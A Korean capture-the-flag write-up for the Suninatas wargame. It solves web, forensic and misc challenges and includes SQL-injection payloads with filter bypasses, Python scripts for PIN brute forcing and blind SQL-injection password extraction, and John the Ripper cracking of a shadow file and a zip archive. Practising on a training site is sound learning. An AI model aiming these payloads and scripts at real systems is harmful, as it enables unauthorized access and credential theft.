


# Suninatas WRITE-UP

난이도가 쉬워서 웹 처음 공부할 때 좋은 것 같다.


## Web

### #1 level1

keyword : string manipulation

```php
<%
    str = Request("str")

    If not str = "" Then
        result = Replace(str,"a","aad")
        result = Replace(result,"i","in")
        result1 = Mid(result,2,2)
        result2 = Mid(result,4,6)
        result = result1 & result2
        Response.write result
        If result = "admin" Then
            pw = "????????"
        End if
    End if
%>
```

요약해보면 `a->aad`, `i->in`이고 Mid(result, 2, 2)는 result가 `abcde`라면 `bc`를 리턴하는 함수이다. `result = result1 & result2`는 그냥 두 문자열을 이어주는 거라고 생각하면 될 것 같다.

위의 조건들에 부합하는 적당한 문자열 `ami`를 입력해주면 Solve.


### #2 level2

keyword : bypass javascript

```html
<script>
	function chk_form(){
		var id = document.web02.id.value ;
		var pw = document.web02.pw.value ;
		if ( id == pw )
		{
			alert("You can't join! Try again");
			document.web02.id.focus();
			document.web02.id.value = "";
			document.web02.pw.value = "";
		}
		else
		{
			document.web02.submit();
		}
	}
</script>
<!-- Hint : Join / id = pw -->
<!-- M@de by 2theT0P -->
```

요부분이 중요한 건 알겠는데, 어떻게 하지..  몸부림치다가 Java script는 client side script라서 걍 client 딴에서만 동작하게 된다는 것을 알게 되었다. 그럼 결국 조작할 수 있단 거겟찌

Hint를 보아하니 id와 passwd를 같게 한 뒤, document.web02.submit() 동작을 수행하면 플래그를 얻을 수 있는 것 같다.

원래 burp suite 쓰다가 fiddler는 브라우저만 대상으로 하지 않는다는 정보를 어느 톡방에서 들어서 fiddler로 갈아타게 됬는데, 사용법도 익힐 겸 성심성의껏 작성해본다.

먼저 브포를 걸어 request 전에 값을 수정할 수 있도록 한다.


브포가 제대로 걸렸으면 대충 아무거나 입력하는데, document.web02.submit()가 실행되야 하므로 반드시 id != pw 한 값으로 입력한다.


이후 Join을 클릭하면, document.web02.submit()가 실행되면서 Fiddler에서 브포가 걸린 모습을 확인할 수 있을 것이다. 왼쪽 상단의 Go를 하던가 오른쪽 response란의 Run to Completion을 누르면 끝.


style.css가 없어서 오류가 뜨기는 하는데, 굳이 중요한 것은 아니니 넘겨도 된다.

[+] 다른 풀이 방법으로 개발자 도구를 사용하는 방법도 있다. 해당 경우 id와 pw를 같은 값으로 입력한 후, console에서 document.web02.submit()을 실행시키면 된다.


### #3 Write articles in Notice Board!

keyword : write board bug


??? 하며, 이것저것 뒤져봤는데 별게 없었다. 게다가 Notice 게시판에는 글쓰기 기능이 없다. 글자만 말똥말똥 바라보면서 아니 뭐 하라는거지??하면서 답답할 때는 QnA를 보자. Solver를 보는 것보다 QnA에서 가끔 나오는 깨알같은 단서들을 참고하는게 더 나은 것 같다.


이런식으로 문제에 대한 힌트를 얻을 수 있다. 진짜로 Notice Board에 글을 쓸 수 있는 방법이 있는 것 같다. 고수 성님이 말씀하신대로 자유게시판(=QnA 게시판)의 동작을 참고해보며 Notice Board에 쓰는 방법을 찾아보도록 하자.

우선, Q&N 게시판에 접속해보면,


처음 저 화면을 보여주기 위해서는 `/board/list.asp?divi=Free`를 요청한다.


list.asp가 저렇게 표처럼 정리해주는 것 같다. 

이 후 `WRITE` 버튼을 누르면 다음과 같이 `/board/write.asp?page=1&divi=Free`를 요청하게 된다.


다음과 같이 뜸.


Board 내용을 대충 작성한 뒤, `SUBMIT`을 누르면 `/board/board_procc.asp`가 실행되면서 게시물이 등록되었다는 팝업 창이 뜨게 된다.


게시물이 등록되었으면, 이제 다시 `/board/list.asp`를 이용하여 게시물들을 보여준다.




아마 Notice 게시판도 위와 비슷하게 동작할 것 같다. Notice 게시판에 가보면 다음과 같이 `/board/list.asp?divi=notice`를 요청한다.


Notice와 Q&A 게시판의 요청을 보면, divi 속성을 이용하여 두 게시판을 구별한다. 그렇다면 아까 Q&A 게시판을 write 할 때 요청한 url에서 divi만 notice로 바꾸면 Notice 게시판에도 글을 쓸 수 있지 않을까?

그리하야 `/board/write.asp?page=1&divi=notice`를 시전해본다.


여윽시는 역시 여윽시였따.


글을 쓰면 팝업창으로 플래그가 뿅


궁금해서 `/board/view.asp?page=1&divi=notice`로 한번 봐봤더니 다른 사람들이 했던 것들이 보인닿 ㅎ


### #4 Point Plus

keyword : user-agent


```html
				<tr height="30" class="table_main" >
					<td width="120" align="center" bgcolor="cccccc"><font size="2"><b>Point</b></font></td>
					<td width="120" align="center" bgcolor="cccccc"><input type="text" name="total" value="5" size="16"></td>
				</tr>
...
<!-- Hint : Make your point to 50 & 'SuNiNaTaS' -->
<!-- M@de by 2theT0P -->
```

`Plus`를 누를 때마다 Point 값인 value가 증가한다. 힌트를 보아하니 일단 Point를 50으로 증가시켜야 할 것 같다. 뒤에 있는 'SuNiNaTaS'는 뭘 뜻하는지 잘 모르겠다.

`Plus`를 눌렀을 때 요청을 살펴보면 다음과 같다.


2번째와 4번째는 인증서파일과 css파일이므로 무시하고, 1번과 3번을 보면, 먼저 `/Part_one/web04/web04_ck.asp`를 요청하는데, response를 보면 그냥 `/Part_one/web04/web04.asp`로 리다이렉트한다. 이 후 `web04.asp`를 요청하면 response로 기존 html 파일에서 value가 1 증가한 html 파일을 보내준다. 

일단 Plus를 연타하던지 fiddler의 composer를 사용해서 요청을 반복하던지 해서 Point를 마구 증가시켜보면, 다음과 같이 Point가 25이상인 경우에는, SuNiNaTaS browser라는 키워드를 제시하며 Point가 더이상 증가하지 않는다.


흠... User-Agent를 보여주는 것으로 보아, request 하면서 전송되는 User-Agent 정보를 SuNiNaTaS로 바꿔서 server로 하여금 client가 SuNiNaTaS browser를 사용하도록 인식시키라는 것 같다. 

> User-Agent 정보는 브라우저마다 제각각 다른 웹 뷰 디폴트 값을 갖는 문제도 있고, 호환성 문제때문에  서버가 해당 브라우저에 맞는 대응을 해주기 위해 생긴 html header이다. 자세한 정보 =>  https://en.wikipedia.org/wiki/User_agent


Fiddler의 Composer는 반복 요청을 할 때 매우 유용하게 쓸 수 있다. web04_ck.asp를 Composer 란에 끌어놓은 뒤, User-Agent 값을 SuNiNaTaS로 변경하고 Execute 한다. 


이제 정상적으로 Point가 증가하는 것을 볼 수 있다.


50이 되면 key가 뙇.


### #5 level5

keyword : packing


```html
<script>
	eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('g l=m o(\'0\',\'1\',\'2\',\'3\',\'4\',\'5\',\'6\',\'7\',\'8\',\'9\',\'a\',\'b\',\'c\',\'d\',\'e\',\'f\');p q(n){g h=\'\';g j=r;s(g i=t;i>0;){i-=4;g k=(n>>i)&u;v(!j||k!=0){j=w;h+=l[k]}}x(h==\'\'?\'0\':h)}',34,34,'||||||||||||||||var|result||start|digit|digitArray|new||Array|function|PASS|true|for|32|0xf|if|false|return'.split('|'),0,{}))		
</script>
<!--Hint : 12342046413275659 -->
<!-- M@de by 2theT0P -->
```

굉장히 지저분한 무언가가 보인다.


```js
eval(function(p, a, c, k, e, r) {
    e = function(c) {
      //console.log(c.toString(a))
      return c.toString(a)
    };
    if (!''.replace(/^/, String)) {
        while (c--) r[e(c)] = k[c] || e(c);
        k = [function(e) {
            return r[e]
        }];
        e = function() {
            return '\\w+'
        };
        c = 1
    };
    while (c--)
        if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
    console.log(p)
    return p
}('g l=m o(\'0\',\'1\',\'2\',\'3\',\'4\',\'5\',\'6\',\'7\',\'8\',\'9\',\'a\',\'b\',\'c\',\'d\',\'e\',\'f\');p q(n){g h=\'\';g j=r;s(g i=t;i>0;){i-=4;g k=(n>>i)&u;v(!j||k!=0){j=w;h+=l[k]}}x(h==\'\'?\'0\':h)}', 34, 34, '||||||||||||||||var|result||start|digit|digitArray|new||Array|function|PASS|true|for|32|0xf|if|false|return'.split('|'), 0, {}))
```

결국 function(p,a,c,k,e,r)의 리턴 값이 p를 eval()로 실행하기 때문에, p 리턴 직전에 `console.log(p)`를 삽입하여 p를 출력해보면 어떤 스크립트를 실행하는지 알 수 있다.

```js
var digitArray = new Array('0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f');

function PASS(n) {
    var result = '';
    var start = true;
    for (var i = 32; i > 0;) {
        i -= 4;
        var digit = (n >> i) & 0xf;
        if (!start || digit != 0) {
            start = false;
            result += digitArray[digit]
        }
    }
    return (result == '' ? '0' : result)
}
```

hint로 줬던 숫자를 잊지않고 여기에 집어넣어 `PASS(12342046413275659)`를 실행시켜보면, `9c43c20c` 를 얻을 수 있다. 

이 값을 입력하고 `check` 버튼을 누르면 플래그가 똳


사실 중간에 구한 `9c43c20c`가 플래그인 줄 알고 여기서 한참 헤매다가 재미있는 걸 발견했다. `12342046413275659`는 실제로 `2BD9069C43C20B`이다. 여기서는 4바이트만 구하기 때문에 `9C43C20B`인데, 실제 script를 돌려서 나온 값은 이보다 1이 크다. ㅇ.ㅇ??? 

알고 보니, `12342046413275659`를 `12342046413275660`로 인식한다.

```js
> console.log(12342046413275659)
12342046413275660
> console.log(12342046413275660)
12342046413275660
> console.log(12342046413275661)
12342046413275660
> console.log(12342046413275662)
12342046413275662
> console.log(12342046413275663)
12342046413275664
> console.log(12342046413275664)
12342046413275664
> console.log(12342046413275665)
12342046413275664
```

JavaScript가 53 bit integer를 지원하기 때문이라고한다. 자세한 사항은  http://2ality.com/2012/07/large-integers.html를 참고해보는게 좋겠다.


### #6 level6

keyword : sql injection, cookie


요런 게시판이 존재한다. 코드 상 봐도 숨겨진 데이터는 없었다. 각 각의 게시물들을 살펴보면 다음과 같다. 


세 번째 게시물인 README는 잠겨있고, 나머지 두 게시물은 봐도 뭔소리인지 잘 모르겠다. `Hint`를 보아하니 password를 찾아내던 우회하던 하여 README를 읽는 게 문제해결의 시작인 것 같다.


`"select szPwd from T_Web13 where nIdx = '3' and szPwd = '"&pwd&"'"`를 보아하니 Password로 입력한 값이 저 pwd에 위치하게 되는 것 같다. sql injection 문제이다. 다만 `' or 1=1 --`이 안되서 조금 헤맸는데, =이 아닌 다른 연산자를 사용해서 True로 만들어 주면 된다. 

__' or 1<2 --__ 하니까 됬다.


auth_key 값을 알아냈다. `suninatastopofworld!`

그러나 아직도 README를 읽을 수는 없다. ㅇ.ㅇ??

우우어어우우ㅏ아 하다가 QnA 게시판을 살펴보니 쿠키 값을 이용하란 말을 보게 되어, Fiddler로 자세히 살펴보았다.


우선 README 게시물에 접근할 때, idx, num, passcode를 사용하여 요청하는 것을 볼 수 있었고(사실 그냥 num=3로만 접근한 적이 있다. 어쩐지 안되더라니), 쿠키 값을 보면 auth_key=????? 로 되어있다. 딱봐도 여기에 아까 찾은 auth_key 값을 넣어서 보내주면 될 것 같다.

근데 그냥 넣으면 또 안되고 다른 처리를 해줘야 한다. 여기서 또 삽질했는데, 아까 게시물 중 md5 hash 사이트를 안내해주던게 생각나서 md5로 해쉬 값을 넣어줬더니 됐다!


`65038b0559e459420aa2d23093d01e4a`로 수정


제대로 되었으면 이제 README를 읽을 수 있게 되었다. 여기까지가 2단계.


으아니 기대한 것과 다르게 별게 없다. 소스코드를 봐도 별다를 건 안보이고..

다른 남은 게시물 중 PoP짱! 이게 좀 의심스러워서 구글링을 한참 해보았지만 별게 나오지는 않았다.

혹시나 싶어 다시 README의 소스를 살펴보던 와중 조금 의심스러운게 보였음.

```html
<BODY>
<table width="100%" cellpadding="0" cellspacing="0">
<form method="post" name="KEY_HINT" action="Rome's First Emperor">
	<tr>
		<td align="center">
			<table cellpadding="0" cellspacing="0">
```

진짜 action으로 저거 하는 줄 알고 찾아보다가, 설마하고 읭 진짜 키 힌트인가하고 입력해보니 ㄹㅇ이엇음..

흠 꽤나 재미있었다.


### #7 level7

keyword : faster!, IU

귀여운 아이유가 나온다. 아이유 카와이이이ㅣㅣ 근데 사진이 너무 큰 거 같다. 심쿵할뻔


```html
<form method="post" action="./web07_1.asp" name="frm">
<div align="center"><input type="button" name="main_btn" value="main" style="width:60" onclick="location.href='/main/main.asp'">&nbsp&nbsp&nbsp
<input type="button" name="main_btn" value="Back" style="width:60" onclick="history.back()"></div>
	<div align="center"><input type="hidden" name="web07" value="Do U Like girls?" ></div>
	<div align="center"></div>
	<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
	<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
	<div align="center"><input type="submit" value="YES"></div>
	<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
	<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
	<div align="center"></div>
</form>
<!-- Hint : Faster and Faster -->
<!-- M@de by 2theT0P -->
```

br로 도배해놨다. ㅎㄷㄷ Hint를 봐서나 아래의 web07_1.asp를 봤을 때, 이 문제의 아이디어는 web07.asp를 요청한 뒤 빠르게 yes 버튼을 눌러 web07_1.asp를 요청하는 게 핵심인 것 같다.

```html
		<script language="javascript">
			alert("Wrong way!");
			document.location.href='./web07.asp';
		</script>
		
	<script language="javascript">
		 alert("Fail..Your too slow");
		 location.href="web07.asp";
	</script>
```


막 새로고침해서 빠르게 하는 거는 다음의 코드로 인해 불가능하다.  

```js
function noEvent() {
	if ( event.keyCode == 116 || event.keyCode == 9)
	{
		alert('No!');
		return false;
	}
	else if(event.ctrlKey && (event.keyCode =78 || event.keyCode == 82))
	{
		return false;
	}
}
document.onkeydown = noEvent;
```

대충 느낌상 알 수 있듯이 event.keyCode는 사용자 키보드 입력을 했을 때, 해당 하는 값의 key code 값을 나타내는 역할을 한다. `116 = F5`, `9 = TAB`, `ctrl && 78 = ctrl +  N`, `ctrl && 82 = ctrl + R`로 매핑된다. `document.onkeydown = noEvent` 이므로 키를 눌렀을 때 이벤트가 발생하고 문자가 입력된다. `return false`로 되어있으므로 해당하는 키들에 대한 입력은 무시된다는 것이다.


뭐 특정 키만 막기 때문에 다른 키로 새로고침을 하던가 하는 꼼수를 써도 되겠지만, 그냥 코드짜서 바로 두 개의 요청을 날리면 된다. 우선 로그인한 사용자의 쿠키값을 등록시켜줘야 하고, web07.asp에 대한 요청은 GET이고 web07_1.asp에 대한 요청은 POST이기 때문에, POST의 경우 body content를 담아줘야 한다. fiddler로 보니 `web07=Do+U+Like+girls%3F` 를 보내더라. 디폴트가 GET이고 추가로 두 번째 인자를 넣어주면 POST로 되는 것 같다.

```python
import urllib.request

target1 = 'http://suninatas.com/Part_one/web07/web07.asp'
target2 = 'http://suninatas.com/Part_one/web07/web07_1.asp'

data1 = urllib.request.Request(target1)
data1.add_header("Cookie","ASPSESSIONIDCSAARTSC=KELNKLFBEBIHLHILKGKJNOBN; auth%5Fkey=%3F%3F%3F%3F%3F")

data2 = urllib.request.Request(target2)
data2.add_header("Cookie","ASPSESSIONIDCSAARTSC=KELNKLFBEBIHLHILKGKJNOBN; auth%5Fkey=%3F%3F%3F%3F%3F")

resp1 = urllib.request.urlopen(data1).read()
resp2 = urllib.request.urlopen(data2, 'web07=Do+U+Like+girls%3F'.encode('utf-8')).read()

print(resp2)

'''
b'\r\n\t<script language="javascript">\r\n\t\talert("Congratulation!");\r\n\t</script>\r\n\tAuthkey : G0Od d@y'
```


다른 방법으로는 Fiddler에서 두 request를 선택한 뒤 replay 기능을 이용하여 마구 거의 동시에 날려주면 받을 수 있음!

또 다른 사람들 풀이 좀 살펴보니까 개발자 도구에서 
`location.href = "http://suninatas.com/Part_one/web07/web07.asp"` 요거 입력해서 새로고침 대신하고, 바로 `frm.submit()` 을 실행해서 yes 누른 것처럼 하는 방법도 있더라. frm은 저 submit을 포함하는 form 태그의 name 속성 값임.


### #8 level8

keyword : brute force



```html
<!-- Hint : Login 'admin' Password in 0~9999 -->
<!-- M@de by 2theT0P -->
```

brute force 문제인 것 같다. 

id와 pw를 입력했을 때의 fiddler로 잡아본 결과 id와 pw는 body에 들어가고 POST 요청으로 나가는 것을 확인할 수 있었다.


적당히 다음과 같은 코드를 짜서 돌리면 된다.

```python
import urllib.request

target = 'http://suninatas.com/Part_one/web08/web08.asp'
r = urllib.request.Request(target)
r.add_header("Cookie","ASPSESSIONIDCSAARTSC=KELNKLFBEBIHLHILKGKJNOBN")
for i in range(0, 9999):
    data = urllib.request.urlopen(r, ('id=admin&pw=' + str(i).zfill(4)).encode('utf-8')).read()
    print(str(i).zfill(4))
    if 'key' in str(data):
        break
print(data)
```


7707에서 터졌다!

```shell
7704
7705
7706
7707
b'\r\n\t\t<script>alert(\'Congratulation!\');</script>\r\n\t\r\n\r\n<html>\r\n\t<title>Game No.8</title>\r\n\t<head><link href="/include/style.css" rel="stylesheet" type="text/css"></head>\r\n\t<BODY>\r\n\t\t<form method="Post" action="./web08.asp">\r\n\t\t<br>\r\n\t\t\t\t<br>\r\n\t\t\t\t\t\t<br>\r\n\t\t\t\t\t\t\t\t<br>\r\n\t\t\t\t\t\t<br>\t\t\t\t\t\t\r\n\t\t\t\t<br>\r\n\t\t<br>\r\n\t\t<table width="240" cellpadding="0" cellspacing="0" align="center">\r\n\t\t\t\t<tr height="30">\r\n\t\t\t\t\t<td width="50%" class="table_top" align="center"><input type="button" name="main_btn" value="main" style="width:60" onclick="location.href=\'/main/main.asp\'"></td>\r\n\t\t\t\t\t<td width="50%" class="table_top" align="center"><input type="button" name="main_btn" value="Back" style="width:60" onclick="history.back()"></td>\r\n\t\t\t\t</tr>\r\n\t\t\t\t<tr height="30" class="table_main" >\r\n\t\t\t\t\t<td width="120" align="center" bgcolor="cccccc"><font size="2"><b>ID</b></font></td>\r\n\t\t\t\t\t<td width="120" align="center" bgcolor="cccccc"><input type="text" name="id" style="width:90" ></td>\r\n\t\t\t\t</tr>\r\n\t\t\t\t<tr height="30" class="table_main" >\r\n\t\t\t\t\t<td align="center" bgcolor="cccccc"><font size="2" ><b>PW</b></font></td>\r\n\t\t\t\t\t<td align="center" bgcolor="cccccc"><input type="password" name="pw" style="width:90" maxlength="4" ></td>\r\n\t\t\t\t</tr>\r\n\t\t\t\t<tr height="30">\r\n\t\t\t\t\t<td colspan="2" align="center" class="table_top" bgcolor="cccccc"><input type="button" name="btn" value="Login" onclick="submit()" size=20></td>\r\n\t\t\t\t</tr>\r\n\t\t\t\t<tr class="table_main" height="30">\r\n\t\t\t\t\t<td colspan="2" align="center" bgcolor="cccccc">Authkey : l3ruteforce P@ssword</td>\r\n\t\t\t\t</tr>\r\n\t\t\t</table>\r\n\t\t</form>\r\n\t</BODY>\r\n</html>\r\n\r\n\r\n<!-- Hint : Login \'admin\' Password in 0~9999 -->\r\n<!-- M@de by 2theT0P -->'
```


### #22 Blind Sql Injection

keyword : blind injection


```html
<!-- Hint : guest / guest & Your goal is to find the admin's pw -->
<!-- M@de by 2theT0P -->
```

Blind SQLinjection 문제이다.

이것저것 시도해본 결과, 일단 특수문자는 대부분 안되는 것을 확인했다. 다행히 '는 되서 escape이 가능하다. white space가 필터링 대상이라 고민이 좀 됐는데, 다행히 %0a로 우회할 수 있었다.(찾아보니 괄호()로 감싸도 됨!) 

```shell
Part_one/web22/web22.asp?id=guest'and%0asubstring(pw,1,1)='g'--&pw=1234
Part_one/web22/web22.asp?id=admin'and(len(pw)=10)--&pw=1234
Part_one/web22/web22.asp?id=admin'and%0asubstring(pw,1,1)='a'--&pw=1234
```

위처럼 사용할 수 있다. len()을 이용하여 길이가 10인 걸 알 수 있었고, 나머지는 그냥 substring()을 이용해서 한글자씩 비교하도록 코드를 돌렸다.


```python
import urllib.request
import string

array = string.printable
leak = ''

for j in range(1, 11):
    for i in array:
        target = "http://suninatas.com/Part_one/web22/web22.asp?id=admin'and%0asubstring(pw,{},1)='{}'--&pw=1234"
        re = urllib.request.Request(target.format(j,i))
        re.add_header("Cookie","ASPSESSIONIDCSAARTSC=KELNKLFBEBIHLHILKGKJNOBN")

        data = urllib.request.urlopen(re).read().decode('utf-8')
        #print(data)
        if 'OK' in data:
            leak += i
            print(leak)
            break
'''
...
N1c3Bil
N1c3Biln
N1c3Bilnl
N1c3Bilnl)
```


### #23 Hard Blind Sql injection


```html
<!-- Hint 1 : guest / guest & Your goal is to find the admin's pw -->
<!-- Hint 2 : Bypass 'admin' string -->
```

이전 문제랑 거의 비슷한데, 막 쿼리 제한있고(30자) admin도 filtering 되어있고 뭐 그래서 좀 힘들었따. 특히 Mssql이라서 mid()도 없고, 30자 제한 때문에 left나 right 만으로 다 못해서, 결국 쪼개서 진행했다... ㅠ

우선, 패스워드의 길이를 알아내었고, 글자 수 제한때문에 첫 번째 글자까지만 알 수 있다. v라는 걸 알 수 있다.

```sql
http://suninatas.com/Part_one/web23/web23.asp?id=adm'%2B'in' and len(pw)=12--&pw=1234
http://suninatas.com/Part_one/web23/web23.asp?id=adm'%2B'in'and%20left(pw,1)='{}'--&pw=1234
```

여기서 이용할 수 있는게, id를 지정해주지 않으면 해당 컬럼에 있는 것들을 모두 참조한다는 것이다. 예를 들어, 본 문제에서는 guest와 admin이 존재하는데, id를 제대로 지정하지 않으면 left(pw,1)='g'도 참이고 left(pw,1)='v'도 참이다. 해당 방법을 이용하면 id 없이 패스워드를 알아낼 수 있다.

다만 글자 수 제한때문에, 2글자를 구하지 못하는데 이는 id를 admin으로 지정한 상태롤 right()를 이용하여 한 글자를 알아낸 뒤, id 없이 right()를 이용하여 남은 글자까지 알아내는 방식으로 진행하면 된다.


```python
import urllib.request
import string

array = string.printable
cookie = 'ASPSESSIONIDCSAARTSC=KELNKLFBEBIHLHILKGKJNOBN; auth%5Fkey=%3F%3F%3F%3F%3F; ASPSESSIONIDSQDCQQTD=PDPHOHCCIHILGKBBHBPLHGCI'

leak = ''

for i in array:
    target = "http://suninatas.com/Part_one/web23/web23.asp?id=adm'%2B'in'and%20left(pw,1)='{}'--&pw=1234"
    re = urllib.request.Request(target.format(i))
    re.add_header("Cookie",cookie)
    try:
        data = urllib.request.urlopen(re).read().decode('utf-8')
    except:
        continue
    if 'OK' in data:
        leak += i
        print(leak)
        break

for j in range(2, 11):
    for i in array:
        target = "http://suninatas.com/Part_one/web23/web23.asp?id='or%20left(pw,{})='{}'--&pw=1"
        re = urllib.request.Request(target.format(j,leak+i))
        #print(target.format(j, leak+i))
        re.add_header("Cookie",cookie)
        
        try:
            data = urllib.request.urlopen(re).read().decode('utf-8')
        except:
            continue
        
        if 'OK' in data:
            leak += i
            print(leak)
            break

reversed_s = ''
for i in array:
    target = "http://suninatas.com/Part_one/web23/web23.asp?id=adm'%2b'in'and%20right(pw,1)='{}'--&pw=1"
    re = urllib.request.Request(target.format(i+reversed_s))
    #print(target.format(i+reversed_s))
    re.add_header("Cookie",cookie)
        
    try:
        data = urllib.request.urlopen(re).read().decode('utf-8')
    except:
        continue
        
    if 'OK' in data:
        reversed_s = i + reversed_s
        print(leak+reversed_s.zfill(2))
        break

for i in array:
    target = "http://suninatas.com/Part_one/web23/web23.asp?id='or%20right(pw,2)='{}'--&pw=1"
    re = urllib.request.Request(target.format(i+reversed_s))
    #print(target.format(i+reversed_s))
    re.add_header("Cookie",cookie)
        
    try:
        data = urllib.request.urlopen(re).read().decode('utf-8')
    except:
        continue
        
    if 'OK' in data:
        reversed_s = i + reversed_s
        print(leak+reversed_s)
        break

'''
v
v3
v3r
v3ry
v3ryh
v3ryha
v3ryhar
v3ryhard
v3ryhards
v3ryhardsq
v3ryhardsq0i
v3ryhardsqli
```


## forensic

### #14 Do you know password of suninatas?

keyword : crack /etc/shadow SHA512

#### /etc/shadow

```shell
root:$6$E2loH6yC$0lcZ0hG/b.YqlsPhawt5NtX2jJkSFBK6eaF/wa46d8/3KPs6d45jNHgNoJOl7X1RsOrYsZ.J/BBexJ93ECVfW.:15426:0:99999:7:::
...
suninatas:$6$QlRlqGhj$BZoS9PuMMRHZZXz1Gde99W01u3kD9nP/zYtl8O2dsshdnwsJT/1lZXsLar8asQZpqTAioiey4rKVpsLm/bqrX/:15427:0:99999:7:::
```

passwd 파일과 shadow 파일을 주는데, shadow 파일의 경우 root와 suninatas 계정의 해쉬 처리된 패스워드 값을 확인할 수 있다. SHA-512를 사용했으며, salt 값으로 `QlRlqGhj`를 사용하였다.

online decrypter를 찾아봤으나, 제대로 되는 것이 없어 결국 john the ripper를 사용했다. 다행히 john으로 쉽게 구할 수 있다.


#### hash crack

```shell
> sudo apt install john
...

> john --show shadow
root:toor:15426:0:99999:7:::
suninatas:iloveu1:15427:0:99999:7:::

2 password hashes cracked, 0 left
```

root와 suninatas의 패스워드를 구했다. 답은 suninatas의 패스워드인 `iloveu1`이다.


> shadow 파일의 구조는 다음과 같다.
>
> ```shell
> Username : It is your login name.
> Password : It is your encrypted password. The password should be minimum 8-12 characters long including special characters, digits, lower case alphabetic and more. Usually password format is set to $id$salt$hashed, The $id is the algorithm used On GNU/Linux as follows:
> 
>     $1$ is MD5
>     $2a$ is Blowfish
>     $2y$ is Blowfish
>     $5$ is SHA-256
>     $6$ is SHA-512
> 
> Last password change (lastchanged) : Days since Jan 1, 1970 that password was last changed
> Minimum : The minimum number of days required between password changes i.e. the number of days left before the user is allowed to change his/her password
> Maximum : The maximum number of days the password is valid (after that user is forced to change his/her password)
> Warn : The number of days before password is to expire that user is warned that his/her password must be changed
> Inactive : The number of days after password expires that account is disabled
> Expire : days since Jan 1, 1970 that account is disabled i.e. an absolute date specifying when the login may no longer be used
> ```
>
> reference : https://www.cyberciti.biz/faq/understanding-etcshadow-file/


### #15 Do you like music? Hint : AuthKey is in this file.

keyword : meta-data

`diary.mp3` 파일을 얻을 수 있다. 처음에는 스펙토그램 문제인 줄 알고 삽질했는데, 속성 창에 있는 메타 정보를 읽는 문제였다.

윈도우 기준 `파일 -> 속성 -> 자세히`로 보면 지휘자 항목에 `GoodJobMetaTagSearch`를 볼 수 있다. 해당 값이 키임


## misc

### #13 KEY Finding

keyword : zip, decrypt

현재 프레임의 소스를 보면 다음과 같은 힌트를 볼 수 있다.

```html
<!--	Hint : 프로그래머의 잘못된 소스백업 습관 -->
<!--	Hint : The programmer's bad habit of backup source codes -->
```

???하며 좀 많이 헤맸다. http://suninatas.com/Part_one/web13/web13.zip 에서 web13.zip 파일을 가져올 수 있다.

이 zip 파일에는 암호가 걸려있는데, 4글자라고 하니 Brute-force로 때려박아서 얻을 수 있다.

적당히 john-the-ripper를 사용토록 하자. zip2john은 official로서 지원하지는 않는다. 설치는 https://chp747.tistory.com/213?category=716904를 참고하도록 하자.

```shell
> ../JohnTheRipper/run/zip2john web13.zip > test.john
ver 2.0 web13.zip/whitehack1.jpg PKZIP Encr: cmplen=3974, decmplen=4017, crc=B1329C55
ver 2.0 web13.zip/whitehack2.jpg PKZIP Encr: cmplen=58089, decmplen=58427, crc=EFA45D9D
ver 2.0 web13.zip/whitehack3.jpg PKZIP Encr: cmplen=3954, decmplen=3937, crc=4A3CF125
ver 2.0 web13.zip/whitehack4.jpg PKZIP Encr: cmplen=7003, decmplen=7069, crc=E4023BA9
ver 2.0 NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

> ../JohnTheRipper/run/john --incremental test.john --pot=test.pot
Warning: invalid UTF-8 seen reading test.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
7642             (web13.zip)
1g 0:00:00:06 DONE (2019-03-13 05:32) 0.1490g/s 8582Kp/s 8582Kc/s 8582KC/s 08r..sapphine
Use the "--show" option to display all of the cracked passwords reliably
Session completed

> cat test.pot
$pkzip2$3*1*1*0*8*24*b132*b655*fbc3801ab16804b8b1511358a763de830c1f53d33747025d8a0ea79915a3173d8b8d6b18*1*0*8*24*efa4*b6a9*fbc3801ab16804b8b15185f3e7774bb635c23e916859e05ae64f2da2331ffff1f66faeb4*2*0*35*24*f3e4e327*11df4*35*8*35*f3e4*b2f4*fbc3801ab16804b8b151c51c311292a47cede4d9dd82a4c3f42c7b5872daf579c6e4aa2af761b8107d80fb1ae9ce257b831b807687*$/pkzip2$:7642
```

passwd : 7642를 사용하여 압축을 풀면 4개의 jpg 파일과 1개의 txt 파일이 나오는데, txt 파일의 내용은 다음과 같다.

```
4개의 이미지를 합하여 key를 구하시오
```


파일들에서 "key"를 키워드로 하여 문자열을 검색해서 나온 결과를 모두 합치면 Solve.

```shell
> strings * | grep "key"
first key : 3nda192n
second key : 84ed1cae
third key: 8abg9295
fourth key : cf9eda4d
 key
```


